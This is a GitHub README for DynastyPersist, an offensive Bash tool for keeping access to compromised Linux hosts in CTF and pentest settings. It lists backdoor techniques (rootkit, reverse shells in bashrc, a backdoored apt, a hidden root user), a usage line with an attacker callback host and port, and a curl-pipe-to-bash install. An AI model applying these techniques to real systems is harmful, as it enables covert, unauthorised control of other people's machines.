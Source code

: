 

<h1 align="center">DynastyPersist 1.4</h1>

<p align="center">
  DynastyPersist: A streamlined tool for achieving Linux persistence effortlessly.<br>
  Supports <b><i>KoTH, Battlegrounds and Pentest Operations</i></b><br>
   <br>
  <img alt="GitHub License" src="https://img.shields.io/github/license/Trevohack/DynastyPersist?style=for-the-badge&labelColor=blue&color=violet">
  <img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/Trevohack/DynastyPersist?style=for-the-badge&labelColor=blue&color=violet">
  <img alt="Static Badge" src="https://img.shields.io/badge/Tested--on-Linux-violet?style=for-the-badge&logo=linux&logoColor=black&labelColor=blue">
  <img alt="Static Badge" src="https://img.shields.io/badge/Bash-violet?style=for-the-badge&logo=gnubash&logoColor=black&labelColor=blue">
</p> 

![image](https://github.com/Trevohack/DynastyPersist/assets/136177431/0abde422-ce91-4aa5-b0a2-f0ed45a9ca23)



## Documentation

### [ FEATURES ]

| Features | Description |
| :-------- | :-------   | 
| **SSH Key Generation** |  Automatically generates SSH keys for covert access.  |
| **Cronjob Persistence** | Sets up cronjobs for scheduled persistence. |
| **Custom User with Root** | Creates a custom user with root privileges. |
| **RCE Persistence** | Achieves persistence through remote code execution |
| **LKM/Rootkit** | Demonstrates Linux Kernel Module (LKM) based rootkit persistence. | 
| **Bashrc Persistence** | Modifies user-specific shell initialization files for persistence (aliases / reverse shells). |
| **Systemd Service for Root** | Sets up a systemd service for achieving root persistence. |
| **LD_PRELOAD Privilege Escalation Config** | Configures LD_PRELOAD for privilege escalation. |
| **Backdooring Message of the Day / Header** | Backdoors system message display for covert access. |
| **Modify an Existing Systemd Service** | Manipulates an existing systemd service for persistence. |
| **Backdoors APT Command** | Backdoors `apt` command to pop up a shell. |


### [ MODES ]

* Currently, there are 2 modes available in the latest update (1.4).

* Modes are `normal` and `ctf` which are designed to work in a specific behavior.

* Firstly, `normal` mode enters the tool in the usual setup, with all features. These features will run locally on the local host where the script is being executed. Designed for persistence in real-time operations.

* Secondly, `ctf` (beta) mode is an extra feature to log in to a compromised server via SSH and gain persistence. This addon will help a lot in KoTH or Battlegrounds. Further, this will save a lot of time taken for setting up persistence. 

* In comparison, the `normal` mode comes with more features and stability than the `ctf` mode. 

### [ USAGE ] 

* The syntax to use the tool is described below: 

```bash
$ ./dynasty.sh <lhost> <lport> <mode> 
$ ./dynasty.sh ctf 
$ ./dynasty.sh 10.10.14.3 9999 normal
``` 

## Installation

Via Git
```bash
$ git clone https://github.com/Trevohack/DynastyPersist
$ cd DynastyPersist/src 
``` 

Via Curl 
```bash
$ curl -sSL https://raw.githubusercontent.com/Trevohack/DynastyPersist/main/src/dynasty.sh | bash
```


